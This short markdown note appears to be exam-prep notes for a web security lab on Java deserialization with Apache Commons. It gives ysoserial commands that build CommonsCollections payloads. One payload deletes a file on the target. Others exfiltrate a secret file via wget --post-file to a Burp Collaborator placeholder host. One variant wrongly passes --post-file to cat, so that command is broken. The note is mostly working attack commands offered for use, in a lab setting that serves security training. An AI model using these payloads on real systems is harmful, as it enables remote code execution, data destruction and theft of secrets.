


# Java deserialization with Apache Commons

First detect that the cookie is a java serialiced object



You must iterate through the different CommonsCollections versions until you find the correct one: 

`/usr/lib/jvm/java-8-temurin/bin/java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0;echo`





In exam you can read the secret with that payload:

```bash
/usr/lib/jvm/java-8-temurin/bin/java -jar ysoserial-all.jar CommonsCollections<N>  '/usr/bin/wget --post-file /home/carlos/secret https://<BURP-COLLAB>' | base64 -w 0;echo

/usr/lib/jvm/java-8-temurin/bin/java -jar ysoserial-all.jar CommonsCollections<N>  '/usr/bin/cat --post-file /home/carlos/secret https://<BURP-COLLAB>'  | base64 -w 0;echo

```
